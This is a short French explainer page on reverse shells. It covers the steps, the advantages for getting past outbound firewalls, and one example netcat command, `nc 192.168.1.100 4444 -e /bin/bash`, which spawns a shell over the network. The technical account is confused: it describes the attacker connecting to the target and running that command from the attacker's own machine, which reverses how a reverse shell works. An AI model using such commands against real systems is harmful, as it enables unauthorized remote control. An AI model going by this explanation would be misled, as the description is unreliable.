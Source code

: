 ```yaml
---
description: Qu'est-ce qu'un Reverse Shell ?
---
```


# Reverse Shell

Un reverse shell est une technique de piratage où l'attaquant crée un serveur (généralement un shell) sur sa machine et le fait se connecter à la cible vulnérable via un port spécifié. Une fois la connexion établie, l'attaquant peut exécuter des commandes sur la machine cible et récupérer les résultats via la connexion réseau.

<mark style="color:yellow;">**Étapes pour configurer un Reverse Shell :**</mark>

1. <mark style="color:yellow;">**Création du serveur :**</mark> L'attaquant crée un serveur (ex. un shell) sur sa machine en écoutant sur un port spécifique.
2. <mark style="color:yellow;">**Identification de la cible**</mark>** :** L'attaquant identifie la cible vulnérable et son adresse IP pour établir la connexion.
3. <mark style="color:yellow;">**Connexion à la cible :**</mark> L'attaquant se connecte à la machine cible en spécifiant l'adresse IP et le port du serveur.
4. <mark style="color:yellow;">**Contrôle de la cible :**</mark> Une fois la connexion établie, l'attaquant peut exécuter des commandes sur la machine cible et récupérer les résultats via la connexion réseau.

<mark style="color:yellow;">**Avantages du Reverse Shell :**</mark>

* <mark style="color:yellow;">**Bypass des pare-feux sortants :**</mark> Souvent, les pare-feux sont configurés pour autoriser les connexions sortantes, ce qui facilite l'utilisation d'un reverse shell.
* <mark style="color:yellow;">**Port-forwarding inutile :**</mark> Contrairement au bind shell, l'attaquant n'a pas besoin de configurer le port-forwarding sur son routeur pour écouter les connexions entrantes.

<mark style="color:yellow;">**Exemple d'utilisation de Reverse Shell :**</mark> Supposons que l'attaquant ait créé un reverse shell sur sa machine, écoutant sur le port 4444, et que la cible vulnérable soit sur l'adresse IP 192.168.1.100 :

1. <mark style="color:yellow;">Attaquant (IP : 1.2.3.4) :</mark> `nc 192.168.1.100 4444 -e /bin/bash`

Une fois que la connexion est établie, l'attaquant peut exécuter des commandes sur la machine cible et obtenir les résultats via la connexion réseau.
